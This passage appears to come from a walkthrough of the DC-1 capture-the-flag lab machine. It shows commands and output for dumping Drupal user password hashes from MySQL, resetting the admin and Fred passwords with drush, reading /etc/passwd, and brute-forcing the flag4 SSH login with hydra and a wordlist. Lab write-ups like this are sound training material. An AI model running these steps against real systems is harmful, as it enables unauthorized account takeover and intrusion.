 We have already a valid mysql user:  
  
www-data@DC-1:/var/www$ mysql -u dbuser -p    
>Enter password: R0ck3t  
  
  
>mysql> select name,pass,mail,login,status from users;  
>select name,pass,mail,login,status from users;  
>  
>| name  | pass                                                    | mail              | login      | status |  
>  
>|       |                                                         |                   |          0 |      0 |  
>| admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR | admin@example.com | 1550582362 |      1 |  
>| Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg | fred@example.org  | 1550582225 |      1 |  
>  
>3 rows in set (0.00 sec)  
  
No need to break their passwords, we can just change them.  
  
www-data@DC-1:/var/www$ drush user-password Fred --password="fred"  
>Changed password for Fred                                              [success]  
  
www-data@DC-1:/var/www$ drush user-password admin --password="admin"  
>Changed password for admin                                             [success]  
  
We log in as the admin and find a content page named flag3 with the following text:  
  
hxxp://192.168.111.3/node/2#overlay=admin/content  
  
>Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.  
  
Well, let's go back to our shell:  
  
www-data@DC-1:/var/www$ cat /etc/passwd  
>root\: x \:0:0:root:/root:/bin/bash  
>...  
>flag4\: x \:1001:1001:Flag4,,,:/home/flag4:/bin/bash  
  
There's a user named flag4. Let's brute force our way in:  
  
root@kali:~# hydra -l flag4 -P /usr/share/wordlists/rockyou.txt ssh://192.168.111.3  
>Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.  
>  
>Hydra (hxxps://github.com/vanhauser-thc/thc-hydra) starting at 2019-04-16 10:56:09  
>[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task  
>[DATA] attacking ssh://192.168.111.3:22/  
>[22][ssh] host: 192.168.111.3   login: flag4   password: orange  
>1 of 1 target successfully completed, 1 valid password found  
>[WARNING] Writing restore file because 2 final worker threads did not complete until end.  
>Hydra (hxxps://github.com/vanhauser-thc/thc-hydra) finished at 2019-04-16 10:57:11  
  
